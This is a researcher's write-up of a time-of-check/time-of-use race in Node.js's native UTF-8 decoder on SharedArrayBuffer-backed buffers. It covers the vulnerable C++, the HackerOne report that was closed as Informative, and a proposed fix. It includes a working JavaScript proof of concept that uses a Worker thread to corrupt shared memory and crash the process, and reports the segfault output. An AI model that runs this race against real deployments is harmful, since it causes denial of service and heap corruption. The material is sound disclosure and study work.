



Let me paint you a picture.

It's 2 AM. I'm four hours deep into reading C++ code inside the Node.js runtime. Not the JavaScript parts — the native guts where `Buffer.toString()` actually converts raw bytes into strings your code can use. I'm looking at a function called `StringBytes::Encode` in `src/string_bytes.cc`, and I just realized something that made me sit up straight in my chair.

Node.js validates your UTF-8 data. Then it converts it. Two separate steps. And between those two steps, if your buffer is backed by a `SharedArrayBuffer`, another thread can rewrite the entire thing.

The converter? It does **zero** validation. It trusts that the data was already checked. And now it's processing garbage bytes with full confidence.

That's a heap buffer overflow. In the world's most popular server-side runtime. Triggered by 40 lines of JavaScript.

---

## How I Got Here

I wasn't specifically hunting for this. I was doing a broader source audit of Node.js, looking at trust boundaries — places where safe JavaScript-land hands off to unsafe C++ code. The question I kept asking was simple:

> "Where does native code make assumptions about data that JavaScript can violate?"

Most of the time, the answer is "nowhere interesting." Node.js is a mature project with smart engineers. But `SharedArrayBuffer` changes the equation in a fundamental way that's easy to overlook.

See, regular buffers in JavaScript are single-owner. When you call `Buffer.from(arrayBuffer)`, the data belongs to one thread. Nobody else touches it. So any assumptions the C++ code makes about that data — "it's valid UTF-8", "it hasn't changed since I last looked" — those assumptions hold.

`SharedArrayBuffer` breaks all of that. It's designed to be read and written by multiple threads simultaneously. It's true shared memory. And it turns out, when Node.js's native UTF-8 decoder processes data from a SharedArrayBuffer, it doesn't account for this.

---

## The Vulnerable Code

Here's what lives at `src/string_bytes.cc`, lines 585-597. This is the hot path for converting raw bytes into JavaScript strings:

```cpp
if (buflen >= 32 && simdutf::validate_utf8(buf, buflen)) {
  size_t u16size = simdutf::utf16_length_from_utf8(buf, buflen);
  return EncodeTwoByteString(
      isolate, u16size, [buf, buflen, u16size](uint16_t* dst) {
        size_t written = simdutf::convert_valid_utf8_to_utf16(
            buf, buflen, reinterpret_cast<char16_t*>(dst));
        CHECK_EQ(written, u16size);
      });
}
```

Three function calls. Three separate reads of the same memory. And `buf` points directly into the SharedArrayBuffer — no copy, no snapshot, no protection.

Let me break down what each call does and why this sequence is deadly:



The function `convert_valid_utf8_to_utf16` has "valid" right there in the name. It's a performance-optimized converter from the `simdutf` library that explicitly assumes its input has already been validated. It performs no bounds checking, no byte validation, nothing. That's by design — you validate once, then convert fast.

But "validate once" assumes the data doesn't change between validation and conversion. With SharedArrayBuffer, that assumption is dead on arrival.

---

## Understanding the Race Window

Let me make this concrete. Say the SharedArrayBuffer contains valid 3-byte UTF-8 sequences — something like the CJK character "一" (`0xE4 0xB8 0x80`). Each 3-byte UTF-8 sequence decodes to exactly 1 UTF-16 code unit.

Now here's what happens when a Worker thread corrupts those bytes mid-conversion:



The window is tight — microseconds at most. But with a Worker thread running a tight corruption loop, you win the race reliably within seconds on any multi-core machine.

---

## Building the PoC

The exploit is embarrassingly simple once you understand the race. Here's the strategy:

1. Fill a SharedArrayBuffer with valid multi-byte UTF-8 (3-byte sequences work best because they maximise the size calculation mismatch when corrupted)
2. Spawn a Worker that continuously flips bytes between "valid" and "invalid" states
3. Main thread repeatedly calls `Buffer.from(sab).toString('utf8')`
4. Eventually, the validation sees valid data but the converter processes corrupted data
5. Process crashes

```javascript
import { Worker, isMainThread, workerData } from 'node:worker_threads';

if (isMainThread) {
  const sharedBuffer = new SharedArrayBuffer(4096);
  const view = new Uint8Array(sharedBuffer);

  // Fill with valid 3-byte UTF-8: U+4E00 "一" = 0xE4 0xB8 0x80
  for (let i = 0; i < view.length - 2; i += 3) {
    view[i] = 0xE4;
    view[i + 1] = 0xB8;
    view[i + 2] = 0x80;
  }

  // Spawn the corruptor
  const worker = new Worker(new URL(import.meta.url), { workerData: sharedBuffer });

  let iterations = 0;
  function race() {
    iterations++;
    try {
      const buf = Buffer.from(view.buffer);
      buf.toString('utf8'); // This is where we die
    } catch (e) { /* some corruptions throw before crashing */ }
    setImmediate(race);
  }
  race();

} else {
  // Worker: flip between valid and invalid in a tight loop
  const view = new Uint8Array(workerData);
  function corrupt() {
    for (let i = 1; i < view.length; i += 3) {
      view[i] = 0xFF;     // Invalid continuation byte
      view[i + 1] = 0xFF;
    }
    for (let i = 0; i < view.length - 2; i += 3) {
      view[i] = 0xE4;
      view[i + 1] = 0xB8; // Restore valid
      view[i + 2] = 0x80;
    }
    setImmediate(corrupt);
  }
  corrupt();
}
```

Run it:

```bash
$ node --experimental-vm-modules poc.mjs
[*] Starting TOCTOU race condition exploit...
[*] Racing: main thread validate+convert vs worker thread corruption

Segmentation fault: 11
```

That's exit code 139. `SIGSEGV`. The process didn't throw an error — it corrupted memory and the OS killed it.

Sometimes you get the assertion failure instead:

```
node[12345]: ../src/string_bytes.cc:594:
  Assertion `written == u16size' failed.
Aborted: 6
```

Both outcomes confirm the bug. But the segfault is the scary one — it means we wrote past the buffer *before* the safety check could fire. That's a genuine heap overflow.

---

## What Can an Attacker Actually Do With This?

Let's be honest about the impact:

**Denial of Service** — The obvious one. Any Node.js app using SharedArrayBuffer + Workers where toString('utf8') touches shared memory can be crashed. Deterministic, repeatable, no recovery.

**Heap Corruption** — When 3-byte sequences (1 UTF-16 unit each) get corrupted into patterns the converter misreads as requiring more output space, it writes past the allocated buffer. Classic heap overflow. With heap grooming, this could theoretically become arbitrary write — but I didn't develop that far.

**Information Disclosure** — If corruption *shrinks* the output, the allocated buffer contains uninitialized heap bytes. Those bytes become part of a JavaScript string. You might leak pointers, fragments of other strings, internal V8 state.



---

## The Report and the Response

I submitted the full writeup with the working PoC to Node.js's HackerOne program. The response came fast — from a Node.js core contributor:

> "Thanks for the report, I agree that sounds like a bug we'd like to fix, but I don't think this qualifies as a vulnerability. If the code in both threads is trusted (which it is, according to our threat model), no one can exploit this."

And that's the crux of it. Node.js's [threat model](https://github.com/nodejs/node/blob/main/SECURITY.md) says:

- All code running in the process is **trusted**
- Worker threads are **trusted**
- npm dependencies are **trusted**
- Native addons are **trusted**

So from their perspective: if you have a Worker thread corrupting shared memory, that's your own code attacking itself. The "attacker" in my scenario doesn't exist within their model.

I pushed back. I argued that memory corruption in native code should have a higher bar than "trusted JS doing bad things" — because the consequences escape the JavaScript sandbox entirely. I pointed out supply chain risks (a malicious npm package in a Worker could use this to escalate beyond what JavaScript normally allows). I mentioned the `--permission` model that assumes semi-trusted code.

The triager's response was respectful but firm:

> "You didn't list any [realistic attack surfaces], the threat model explicitly states that all dependencies installed from the npm registry as well as native code are trusted. And until proven otherwise, this bug is not enough to bypass the permission model."

Fair enough. Report closed as **Informative**. The triager offered to co-author me on the fix if I contribute a PR, confirmed the bug will be fixed in public (not a security release), and told me I'm free to write about it.

---

## The Fix (It's Almost Insulting How Simple It Is)

The entire vulnerability is eliminated by copying SharedArrayBuffer data before processing it:

```cpp
if (buflen >= 32) {
  const char* safe_buf = buf;
  std::vector<char> local_copy;

  // Snapshot shared memory to eliminate TOCTOU window
  if (is_shared_array_buffer(buf)) {
    local_copy.assign(buf, buf + buflen);
    safe_buf = local_copy.data();
  }

  if (simdutf::validate_utf8(safe_buf, buflen)) {
    size_t u16size = simdutf::utf16_length_from_utf8(safe_buf, buflen);
    // ... convert using safe_buf ...
  }
}
```

One `memcpy`. That's it. The race window closes completely because now validate, measure, and convert all operate on a private snapshot that no other thread can touch. The performance cost only applies to SharedArrayBuffer-backed buffers — regular buffers are unaffected.

---

## What I Learned (The Real Stuff, Not Platitudes)

**Threat models are not technical boundaries — they're policy decisions.** The same bug in Chrome/V8 would be Critical severity because their threat model treats renderer processes as hostile. In Node.js, where everything inside the process is "trusted," it's a bug report. Same memory corruption, completely different outcomes depending on who you report it to.

**"Informative" doesn't mean you're wrong.** The triager explicitly agreed this is a real bug that they want to fix. It just doesn't cross their security threshold. There's a difference between "your finding is invalid" and "your finding is real but outside our security scope." This was the latter.

**SharedArrayBuffer is a goldmine for native code auditing.** Anywhere a runtime does validate-then-use on data backed by shared memory, there's a potential TOCTOU. I'd bet good money similar bugs exist in other runtimes, native addons, and WASM toolchains that haven't fully accounted for concurrent modification of their input buffers.

**Read the threat model before you submit.** I could have saved myself the HackerOne submission by reading Node.js's SECURITY.md more carefully. Workers are trusted. Dependencies are trusted. If your exploit requires running code inside the process, it's probably Informative. Focus your efforts on bugs reachable from untrusted *input* — network, filesystem, URL parsing — not untrusted *code*.

---

## For The Hunters Reading This

If you're auditing Node.js specifically, here's the cheat sheet of what's actually in-scope vs. what'll get closed:

**Will get you a CVE:**
- Bugs reachable from network input (HTTP parsing, URL parsing, DNS)
- Sandbox escapes from the permission model without code execution
- Prototype pollution that bypasses security controls
- Anything exploitable by an untrusted *client* connecting to a Node.js *server*

**Will get you "Informative":**
- Memory corruption that requires running code in the process
- Worker thread races (Workers are trusted)
- IPC attacks from child processes (children are trusted)
- Anything requiring control of environment variables
- Native addon issues (addons are trusted)

The bar is: **can someone on the other end of a TCP connection trigger this without already having code execution?** If not, it's probably out of scope.

---

## Final Thoughts

I'm not bitter about the outcome. The triager was honest, responsive, and offered concrete next steps (co-author on the fix, public disclosure). That's how good security programs should operate — even when the answer is "no."

The bug is real. The crash is real. The heap corruption is real. And someday soon it'll be fixed in a public commit with my name on it. No CVE, no bounty, but a genuine contribution to making Node.js's native code safer.

And honestly? Finding a TOCTOU race condition in the UTF-8 decoder of the world's most popular runtime is just cool. Some bugs you find for the money. Some you find because they teach you something about how software really works at the boundary between safe and unsafe. This was one of those.

The disclosed report is available at [HackerOne #3752489](https://hackerone.com/reports/3752489).

On to the next one.
